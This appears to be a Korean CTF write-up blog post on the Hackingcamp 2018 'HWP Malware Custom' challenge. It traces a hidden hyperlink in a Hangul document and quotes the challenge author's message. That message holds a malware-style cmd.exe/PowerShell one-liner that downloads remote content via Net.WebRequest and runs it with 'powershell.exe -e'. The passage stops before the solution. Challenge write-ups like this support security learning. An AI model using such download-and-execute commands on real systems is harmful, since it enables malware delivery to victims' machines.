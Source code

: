 ```yaml
---
layout: post
title:  "Hackingcamp 2018 HWP Malware Custom"
subtitle: "Hackingcamp 2018 HWP Malware Custom 풀이 입니다."
date:   2018-09-10 13:27:00 +0900
categories: ['ctfs']
comments: true
---
```


## 풀이

HWP 파일을 다운로드하여 열어보면 hackingcamp에 관한 내용을 확인할 수 있다.

육군해킹방어대회에서 HWP에 관한 문제가 출제되었는데 비숫하다고 생각이 되어 문서를 잘 살펴보니 마지막 페이지에 폰트를 매우 작게해 하이퍼링크와 힌트에 관한 내용이 있었다.

{% highlight bash %}
HINT. 출제자가 좋아하는 분야를 떠울려...
a
{% endhighlight %}

`a`라는 글자에는 하이퍼링크가 있었으며 해당 하이퍼링크를 열어보면 `https://drive.google.com/file/d/1nP7ETqhUevqIQz_DY5DVZC64oSvp0MHW/view`로 이동하게 된다.


{% highlight bash %}
Hello I am c0nstant In DemonTeam.
This  problem's intend is not a problem with complex operations.
this code can not active.  
But, Nowadays This Scenario is exist.
There is a lot of malicious code using postscript or ghostscript.
But This Scenario is not used postscript 
Now, if you are a real malware, the binary will be doing malicious activity.
Most malicious activity occurs through C&C.

Now read the pseudo code of the file and think about how to solve it.
Cheerup 

////////////////////Pseudo code//////////////////////

cmd.exe /k "Powershell.exe -NonI -noexit -NoP -sta $sr=(new-object IO.StreamReader((([Net.WebRequest]::Create('http://1993-constant.tistory.com/446)).GetResponse()).GetResponseStream()).ReadToEnd();powershell.exe -e 

# Parsing Coding... #
passwd = 'Parsing and add all the numbers in the HWP file you have viewed. Also parse the numbers in the picture.'

bind def /HACKINGCAMP18